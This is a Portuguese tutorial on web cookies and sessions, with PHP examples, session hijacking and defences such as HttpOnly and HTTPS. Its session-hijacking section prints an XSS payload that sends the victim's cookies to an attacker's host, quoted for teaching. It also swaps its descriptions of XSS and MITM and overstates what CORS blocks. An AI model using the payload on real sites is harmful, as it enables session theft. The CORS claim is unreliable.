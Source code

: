 # Cookie e Sessão


## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles se mostram úteis, uma vez que 
o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistente. Se dependêssemos apenas das conexões HTTP, seria impossível usar um carrinho de compras, pois ao trocar para a página de compra, as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_ no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente como volume do player de música ou vídeo, cor do fundo do site, etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito pelo PHP.
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar a sessão (mas ainda não é uma sessão), de forma que um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de vida (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador.

## Sessões

Agora, ao que nos interessa, **os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É graças às sessões que é possível se logar em sites de redes sociais apenas uma vez em muito tempo. Quando o usuário se conecta, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa. A maioria dos sites que implementa esse recurso estabelece uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão o _cookie_ não existe, então o site manda o browser salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o browser mudar para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo para se tornar administrador do site, burlando todo o sistema de segurança.

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid`, _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_, que terá acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** ou Sequestro de Sessão.

Não tem como evitar que alguém que tenha acesso físico ao seu computador com o navegador aberto na página obtenha sua sessão, mas se ele chegou a esse ponto ele já tem controle total.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**), embora menos comum. O primeiro ataque é descrito basicamente com o atacante entrando no meio da conexão não encriptada (HTTP) e lendo todo o tráfego entre você e o site, incluindo os _cookies_ enviados e sua sessão. O segundo ataque resume-se no atacante injetar código na página de aluguma forma ([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)), esse código injetado pode ler e modificar o conteúdo dos _cookies_ armazenados.

#### Exemplo de Session Hijacking por meio de XSS

```html
<script type="text/javascript">
new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um script no site dele para salvar o cookie que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.



## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, mas uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de javascript, seja ele legítimo da página ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ (possivelmente uma sessão) ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante. (Mesmo assim, ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
